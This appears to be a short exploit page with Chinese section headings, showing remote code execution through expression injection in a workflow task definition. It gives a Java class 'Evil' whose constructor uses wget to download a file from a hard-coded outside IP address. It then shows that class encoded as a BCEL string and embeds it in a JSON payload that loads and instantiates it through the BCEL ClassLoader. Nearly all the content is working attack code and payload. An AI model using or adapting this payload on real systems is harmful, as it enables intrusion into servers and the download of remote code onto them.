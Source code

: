 ```java
public class Evil
{
    public Evil() {
        try {
            Runtime.getRuntime().exec("wget http://81.70.101.91:10001 -O /tmp/ricky");
        }
        catch (Exception ex) {
            ex.printStackTrace();
        }
    }

    public static void main(final String[] array) {
    }
}
```

编译

```
java -jar BCELCodeman.jar e Evil.java
$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbN$oA$U$3d$d5$m$N$3d$8d$80$K3$f8$g$d4$850$P$ba$3b$99dF4n$8c$ae$f0$R$n$e3$c2$8dM$5b$c1Bh$3aM$81$ce$X$cd$da$Nc$5c$f8$B$7e$d4$e8$ad$8e$R$T$ad$a4N$d5$3d$f7$d4$b9$b7$aa$k$fe$df$dd$D$f8$815$DI$cc$Z$c8$a3$90$c4G$b5$7e$d2Q40$85y$j$L$3a$W$Z$S$5b$c2$Xr$9b$nV$ae$fcf$88$ef$f4$cf9C$a6$$$7c$7e0$ec$b5x$d8t$5b$5db$d2$N$e9z$97$fbn$Q$c5$d1$e9$o$c9$7b$ae$f0$Z$K$e5$d3z$c7$j$b9V$d7$f5$dbVC$86$c2oo$w$3b$a3$d1$l$86$k$df$T$ca$o$b5$3b$S$dd$aa$d2$99H$c1$d0$b1db$Z$9f$Z$be$5d$b5$b9$y$5dH$Z$d4$y$eb$97S$fdiW$j$db$a9n85$c7$b6m$a7$f4$fd$b0d$c9$5e$60$85$c2$bb$fcc$a2$84$V$86$d9I$bd$ddk$8f$HR$f4$7d$T$ab0$a8$vU$87$n$3bQ$i$b6$3a$dc$93$M$b9$Ju$3c$f4$a5$e8QW$G$d5$7e$J$f2$e5J$fd$8df$93$y$f95$f7$Y$d6$cb$ef$5c$f3$Vu$U$f6$3d$3e$Y$d0$81L$40I$Z$bdY3t$3d$8e$V$e8$f4$Xjh$60$ea$fa$84$l$u$3a$a3X$a3$b5$f0$e5$l$d8$z$b4$99$d8$Y$f1$93$bfH$d6$bf$8e$91$b8$nU$iid$e9$cb4$98$a4$9bG$820F$ec$U$f1$v$ca$e8$c8$91s$9e$i$d3$94$c9B$7b$q$60$3a$a6$Vd$e2$91$s$f7$5c$adH$93$a9y$Tm$94a$o$o$d2$843Qs$b3O$G$mj$o$3e$C$A$A
```

组合

```
[{"name":"${'1'.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbN$oA$U$3d$d5$m$N$3d$8d$80$K3$f8$g$d4$850$P$ba$3b$99dF4n$8c$ae$f0$R$n$e3$c2$8dM$5b$c1Bh$3aM$81$ce$X$cd$da$Nc$5c$f8$B$7e$d4$e8$ad$8e$R$T$ad$a4N$d5$3d$f7$d4$b9$b7$aa$k$fe$df$dd$D$f8$815$DI$cc$Z$c8$a3$90$c4G$b5$7e$d2Q40$85y$j$L$3a$W$Z$S$5b$c2$Xr$9b$nV$ae$fcf$88$ef$f4$cf9C$a6$$$7c$7e0$ec$b5x$d8t$5b$5db$d2$N$e9z$97$fbn$Q$c5$d1$e9$o$c9$7b$ae$f0$Z$K$e5$d3z$c7$j$b9V$d7$f5$dbVC$86$c2oo$w$3b$a3$d1$l$86$k$df$T$ca$o$b5$3b$S$dd$aa$d2$99H$c1$d0$b1db$Z$9f$Z$be$5d$b5$b9$y$5dH$Z$d4$y$eb$97S$fdiW$j$db$a9n85$c7$b6m$a7$f4$fd$b0d$c9$5e$60$85$c2$bb$fcc$a2$84$V$86$d9I$bd$ddk$8f$HR$f4$7d$T$ab0$a8$vU$87$n$3bQ$i$b6$3a$dc$93$M$b9$Ju$3c$f4$a5$e8QW$G$d5$7e$J$f2$e5J$fd$8df$93$y$f95$f7$Y$d6$cb$ef$5c$f3$Vu$U$f6$3d$3e$Y$d0$81L$40I$Z$bdY3t$3d$8e$V$e8$f4$Xjh$60$ea$fa$84$l$u$3a$a3X$a3$b5$f0$e5$l$d8$z$b4$99$d8$Y$f1$93$bfH$d6$bf$8e$91$b8$nU$iid$e9$cb4$98$a4$9bG$820F$ec$U$f1$v$ca$e8$c8$91s$9e$i$d3$94$c9B$7b$q$60$3a$a6$Vd$e2$91$s$f7$5c$adH$93$a9y$Tm$94a$o$o$d2$843Qs$b3O$G$mj$o$3e$C$A$A').newInstance().class}","ownerEmail":"test@example.org","retryCount":"3","timeoutSeconds":"1200","inputKeys":["sourceRequestId","qcElementType"],"outputKeys":["state","skipped","result"],"timeoutPolicy":"TIME_OUT_WF","retryLogic":"FIXED","retryDelaySeconds":"600","responseTimeoutSeconds":"3600","concurrentExecLimit":"100","rateLimitFrequencyInSeconds":"60","rateLimitPerFrequency":"50","isolationgroupId":"myIsolationGroupId"}]
```

